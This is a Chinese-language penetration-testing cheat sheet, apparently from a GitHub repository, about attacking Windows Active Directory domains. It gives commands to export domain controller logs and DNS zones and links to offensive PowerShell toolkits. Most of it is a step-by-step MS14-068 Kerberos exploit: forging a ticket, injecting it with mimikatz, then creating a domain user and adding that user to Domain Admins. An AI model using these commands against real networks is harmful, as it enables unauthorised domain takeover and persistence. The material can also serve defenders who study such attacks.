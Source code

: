 ```
### 导出 dc log
---
win 2003 自带 eventquery.vbs
```
cscript c:\WINDOWS\system32\eventquery.vbs /fi "Datetime eq 05/24/2018,06:00:00AM-05/24/2018,10:00:00AM" /l Security /V #查看SECURITY日志 2018-5.24 上午6点-上午10点日志
```

win 2008 自带 wevtutil
```
wevtutil qe security /f:text /q:*[System[(EventID=4624)]] //查询登录日志

wevtutil qe security /rd:true /f:text /q:"*[system/eventid=4624 and 4623 and 4672]" /r:dc1 /u:administrator /p:password //查询时在后面加入/r:computer /u:user /p:password 比如查询dc1上的登录注销日志
```

### 导出 dns log
---
域控一般也是dns服务器，自带 dnscmd
```
dnscmd 127.0.0.1 /zoneprint test.xxx.com > 1.txt 
```

微软第三方信息收集工具LogParser.exe psloglist.exe等

## powerhsell神器
---
nishang
https://github.com/samratashok/nishang

spn扫描
https://github.com/nullbind/Powershellery/tree/master/Stable-ish

PowerSploit
https://github.com/PowerShellMafia/PowerSploit/tree/master/Recon

针对ps的Empire
https://github.com/EmpireProject/Empire

## ms14-068 Kerberos漏洞利用：
---
生成TGT：用于伪造

	whoami /all
						  用户@ 域名                 用户sid    域主机
	python ms14068.py -u admin@xxx.com -p password -s sid -d dc.xxx.com
	ms14068.exe -u admin@xxx.com -p password -s sid -d dc.xxx.com
会生成TGT_admin@xxx.com.ccache

注入TGT：

	klist
	klist purge 清除所有凭证，等一会在执行下列命令(https://www.t00ls.net/thread-28727-1-1.html)
	写入内存 mimikatz.exe "kerberos::ptc c:\TGT_admin@xxx.com.ccache" 

若成功

	dir \\dc.xxx.com\c$
	net user admin xxxxx@password /add /domain
	net group "Domain Admins" admin /add /domain
msf ms14_048_kerberos_checksum模块也可以检测
工具：
https://www.t00ls.net/viewthread.php?tid=28207&from=favorites
https://github.com/gentilkiwi/kekeo
```